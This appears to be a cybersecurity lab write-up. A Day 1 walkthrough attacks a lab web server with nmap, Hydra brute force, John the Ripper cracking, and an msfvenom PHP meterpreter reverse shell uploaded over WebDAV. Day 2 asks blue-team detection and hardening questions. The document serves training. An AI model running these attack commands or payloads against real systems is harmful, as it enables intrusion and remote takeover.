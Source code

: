 ### Presentation

PLACEHOLDER LINK

### Day 1 Deliverables

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Run ```nmap 192.168.1.0/24```

![1-network-discovery](screenshots/1-network_discovery.png)

- Locate the hidden directory on the web server.
> Navigate to http://192.168.1.105:80, explored the server contents with a browser.

![2-website](screenshots/2-website.png)
![3-secret-folder](screenshots/3-secret-folder.png)

- Brute force the password for the hidden directory using the hydra command:
> Find the wordlist and unzip the package.

![4-rockyou-find](screenshots/4-rockyou-find.png)
![5-unzip-rockyou](screenshots/5-unzip-rockyou.png)

> Ran Hydra with the following command ```hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder```, logged into the website.

![6-hydra-bruteforce](screenshots/6-hydra-bruteforce.png)
![7-secret-folder-contents](screenshots/7-secret-folder-contents.png)

- Break the hashed password with the Crack Station website or John the Ripper.
> Read the contents of the secret folder and cracked the HASH password with John the Ripper. The cracked password is ```linux4u```.

![8-webdav-contents](screenshots/8-webdav-contents.png)
![9-john-the-ripper](screenshots/9-john-ripper.png)

- Connect to the server via WebDav.
> Connected to the WebDav service at ```192.168.1.105/webdav```.

![10-webdav_passwd](screenshots/10-webdav_passwd.png)

- Upload a PHP reverse shell payload.
> Created the payload with ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > meterpreter.php``` followed by uploading it with ```cadaver http://192.168.1.105/webdav``` and ```put meterpreter.php```.

![11-msfvenom](screenshots/11-msfvenom.png)
![12-cadaver](screenshots/12-cadaver.png)
![13-metasploit](screenshots/13-metasploit.png)

- Execute payload that you uploaded to the site to open up a meterpreter session.
> Payload executed by going to http://192.168.1.105/webdav/meterpreter.php.

![14-payload](screenshots/14-payload.png)

- Find and capture the flag.
> Ran ```locate flag```, followed by ```head /flag.txt```

![15-locate_flag](screenshots/15-locate_flag.png)
![16-flag](screenshots/16-flag.png)

### Day 2 Deliverables

1. Identify the offensive traffic.
   - Identify the traffic between your machine and the web machine:
     - When did the interaction occur?
     - What responses did the victim send back?
     - What data is concerning from the Blue Team perspective?

2. Find the request for the hidden directory.
   - In your attack, you found a secret folder. Let's look at that interaction between these two machines.
     - How many requests were made to this directory? At what time and from which IP address(es)?
     - Which files were requested? What information did they contain?
     - What kind of alarm would you set to detect this behavior in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

3. Identify the brute force attack.
   - After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
     - Can you identify packets specifically from Hydra?
     - How many requests were made in the brute-force attack?
     - How many requests had the attacker made before discovering the correct password in this one?
     - What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

4. Find the WebDav connection.
   - Use your dashboard to answer the following questions:
     - How many requests were made to this directory? 
     - Which file(s) were requested?
     - What kind of alarm would you set to detect such access in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

5. Identify the reverse shell and meterpreter traffic.
   - To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
     - Can you identify traffic from the meterpreter session?
     - What kinds of alarms would you set to detect this behavior in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.
